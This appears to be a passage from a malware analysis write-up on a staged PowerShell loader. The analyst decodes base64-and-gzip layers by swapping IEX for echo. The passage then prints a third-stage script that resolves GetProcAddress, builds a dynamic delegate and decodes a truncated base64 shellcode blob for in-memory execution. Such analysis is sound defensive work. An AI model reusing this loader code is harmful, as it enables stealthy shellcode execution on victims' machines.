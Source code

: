 In the given code snippet, a new MemoryStream object is being created and is immediately populated with a byte array derived from a base64-encoded string. The base64-encoded string, represented as "base64 string", is converted into a byte array using the **`Convert`** class's **`FromBase64String`** method in the .NET Framework.

This MemoryStream object, which now contains the byte array, is used to create a new GzipStream object in decompression mode, meaning the GzipStream object is reading and decompressing data from the provided MemoryStream object.

Finally, a StreamReader object is used to read the decompressed data from the GzipStream object. The **`ReadToEnd`** method is used to read all characters from the current position to the end of the stream.

This sequence of operations suggests the script is unpacking and executing a base64 encoded and gzipped piece of code. It's a common practice in malicious scripts, which tend to use such mechanisms to obfuscate their true intentions.

During the second stage of our analysis, we took a more cautious approach to understand the potential repercussions of the script. Instead of using **`IEX`** to run the PowerShell command embedded in the base64 string, we opted for a safer method. We replaced **`IEX`** with **`echo`**, a much less harmful alternative that would merely display the decoded command instead of executing it.

```powershell
PS C:\Users\Mustafa> $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1Xa2/iShL9..."));
>> echo (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

### Stage 3

```powershell
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
        Param ($var_module, $var_procedure)
        $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
        return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
                [Parameter(Position = 1)] [Type] $var_return_type = [Void]
        )

        $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
        $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

        return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('/OiJAAAAYInlMdJki1Iwi1IMi1IUi3IoD7dKJjH...')
```